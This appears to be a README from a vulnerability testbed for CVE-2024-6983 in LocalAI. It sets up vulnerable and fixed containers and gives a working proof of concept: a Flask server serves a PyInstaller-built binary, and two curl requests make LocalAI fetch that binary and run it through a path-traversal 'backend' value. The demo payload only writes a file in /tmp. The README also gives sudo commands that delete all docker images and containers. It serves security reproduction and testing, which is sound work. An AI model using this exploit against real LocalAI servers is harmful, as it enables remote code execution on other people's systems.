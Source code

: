 # Mudler/LocalAI CVE-2024-6983

This directory contains the deployment config for LocalAI instances vulnerable and fixed to CVE-2024-6983. LocalAI versions below 2.19.4 are vulnerable to that remote code execution vulnerability.

## How to Trigger the Vulnerability?

To trigger the vulnerability, you can use the following two curl commands and the provided Python Script. You may need to install Flask and PyInstaller via pip. Since this vulnerability requires hosting a YAML and an ELF file, the provided Python script will host these files. In a vulnerable environment, after the second curl request, you can see the created file under the /tmp/ directory.

Python Script:

```py
from flask import Flask,send_file,request
import tempfile
import PyInstaller.__main__
import os

app=Flask(__name__)

CONF="""name: "life"

download_files:
  - filename: "app.bin"
    uri: "{0}app.bin"
"""

# Builds exploit code
def build():
    CODE = 'open("/tmp/test.txt","a").write("1337")' # Python code we want to run
    appname="app.bin"
    if os.path.isfile(appname):
        return appname
    with tempfile.NamedTemporaryFile(delete=False) as fp:
        fp.write(CODE.encode())
        fp.close()
        PyInstaller.__main__.run(["--onefile","--clean","--workpath","/tmp/build/","--specpath","/tmp","--distpath",".","-n",appname,fp.name])
    return appname

# Serve model.yaml file
@app.get("/model.yaml")
def model():
    return CONF.format(request.root_url)

# Serve app.bin file
@app.get("/app.bin")
def files():
    return send_file(build())

# Start the server
app.run("0.0.0.0",8000)
```

Curl Requests:

```sh
# Run above Python script first.
python server.py

# Upload the yaml and compiled Python file
curl http://localhost:8080/models/apply -X POST -H "Content-Type: application/json" -d '{"name":"life","config_url":"http://localhost:8000/model.yaml","id":""}'

# Trigger the uploaded app.bin file via the backend parameter.
curl http://localhost:8080/embeddings -X POST -H "Content-Type: application/json" -d '{"backend":"../../../../../../build/models/app.bin","model":"life","input":"hi"}'

# Validate the created file by checking the docker inside.
docker exec -it local-ai bash --> ls /tmp/
```

In case you cannot trigger the vulnerability, you might need to delete your existing container images because Docker might try to reuse them.

```
sudo docker rmi -f $(sudo docker images -aq)
sudo docker remove $(sudo docker ps -a -q)
```
## Fixed version
```sh
docker run -p 8080:8080 -e "DEBUG=true" --name local-ai --network host -ti localai/localai:v2.19.4-ffmpeg-core
```

The deployed service listens on `localhost:8080` after the docker completes its job.

## Vulnerable version
```sh
docker run -p 8080:8080 -e "DEBUG=true" --name local-ai --network host -ti localai/localai:v2.14.0-ffmpeg-core
```

The deployed service listens on `localhost:8080` after the docker completes its job.
